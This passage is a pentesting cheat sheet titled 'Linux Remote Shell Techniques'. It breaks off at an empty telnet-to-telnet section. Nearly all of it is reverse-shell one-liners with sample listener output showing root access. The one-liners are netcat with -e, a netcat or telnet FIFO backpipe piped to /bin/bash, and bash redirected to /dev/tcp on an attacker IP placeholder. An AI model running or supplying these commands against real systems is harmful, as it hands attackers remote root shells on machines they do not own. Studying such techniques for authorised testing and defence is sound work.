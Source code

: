 ```yaml
---
title: Linux Remote Shell Techniques
tags:
- linux
- pentesting
---
```


Abbreviations:

* AIP = Attacker's IP address
* APORT = Port of listening service on the attacker's machine
* TIP = Target's IP address
* TPORT = Target's port (most like a random number generated automatically)

## Standard Unsecure Netcat

This technique relies on a security feature being disabled when netcat was
compiled (that is the -e option).

Target:

```
[root@target ~]# nc <AIP> <APORT> -e /bin/bash
```

Attacker:

```
[root@attacker ~]# nc -n -vv -l -p <APORT>
listening on [any] <APORT> ...
connect to [<AIP> from (UNKNOWN) [TIP] [TPORT]
id
uid=0(root) gid=0(root) groups=0(root)
```

## Using Netcat with Security Hole Closed

is based on the common technique used to build netcat relays. When the
GAPING_SECURITY_HOLE is disabled, which means you don’t have access to the ‘-e’
option of netcat, most people pass on using netcat and move to something else.
Well this just isn’t necessary. Create a FIFO file system object and use it as
a backpipe to relay standard output from commands piped from netcat to
`/bin/bash` back into netcat.

Target:

```
[root@target ~]# mknod backpipe p && nc <AIP> <APORT> 0<backpipe | /bin/bash 1>backpipe
```

Attacker:

```
[root@attacker ~]# nc -n -vv -l -p <APORT>
listening on [any] <APORT> ...
connect to [<AIP> from (UNKNOWN) <TIP> <TPORT>
id
uid=0(root) gid=0(root) groups=0(root)
```

## Netcat Without Netcat

I love “hacks” that use features of the operating system against itself. This
is one of those “hacks”. It takes the /dev/tcp socket programming feature and
uses it to redirect /bin/bash to a remote system. It’s not always available,
but can be quite handy when it is.

Target:

```
[root@target ~]# /bin/bash -i > /dev/tcp/<AIP>/<APORT> 0<&1 2>&1
```

Attacker:

```
[root@attacker ~]# nc -n -vv -l -p <APORT>
listening on [any] <APORT> ...
connect to [<AIP> from (UNKNOWN) <TIP> <TPORT>
[root@target ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@target ~]#
```

## Netcat Without Netcat or /dev/tcp

For when `/dev/tcp` is not available either, combine it with the backpipes

Target:

```
[root@target ~]# mknod backpipe p && telnet <AIP> <APORT> 0<backpipe | /bin/bash 1>backpipe
```

Attacker:

```
[root@attacker ~]# nc -n -vv -l -p <APORT>
listening on [any] <APORT> ...
connect to [<AIP> from (UNKNOWN) [TIP] [TPORT]
id
uid=0(root) gid=0(root) groups=0(root)
```

## Telnet to Telnet

By god this is an ugly one... but it works... and if it's all you got then it's
all you got.

Target:
